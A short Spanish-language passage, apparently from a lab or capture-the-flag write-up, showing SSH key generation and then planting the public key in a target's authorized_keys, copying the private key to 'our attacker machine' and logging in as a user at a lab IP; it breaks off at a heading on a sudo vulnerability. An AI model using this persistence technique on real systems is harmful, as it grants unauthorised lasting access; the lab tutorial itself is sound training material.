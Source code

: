 ```
Created directory '/home/username/.ssh'.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
```

Ahora dispondrá de una clave pública y privada que puede usar para realizar la autenticación. El siguiente paso es ubicar la clave pública en su servidor, a fin de poder utilizar la autenticación basada en la clave SSH para iniciar sesión.

```
Your identification has been saved in /home/username/.ssh/id_rsa.
Your public key has been saved in /home/username/.ssh/id_rsa.pub.
The key fingerprint is:
a9:49:2e:2a:5e:33:3e:a9:de:4e:77:11:58:b6:90:26 username@remote_host
The key's randomart image is:
+--[ RSA 2048]----+
|     ..o         |
|   E o= .        |
|    o. o         |
|        ..       |
|      ..S        |
|     o o.        |
|   =o.+.         |
|. =++..          |
|o=++.            |
+-----------------+
```

Ahora tenemos una clave publica y otra privada, vamos a crear un archivo llamado **authorized_keys**, dentro de la carpeta **.ssh** que es tambien donde estan nuestras llaves, donde vamos a agregar la clave publica. Este archivo va a dejar autorizar a todo aquel que proporcione su clave par (privada) a la hora de autenticarse.

```
touch authorized_keys

cat id_rsa.pub

echo "id_rsa.pub output" > authorized_keys
```

Y con eso deberiamos copiarnos la llave privada a nuestra maquina de atacantes, darle el permiso 600 y autenticarnos:

```
chmod 600 id_rsa

ssh -i id_rsa pepito@10.129.112.108

<enter>

<colocamos el passphrase>
```

## SUDO VULNERABILITY (CVE-2019-14287)
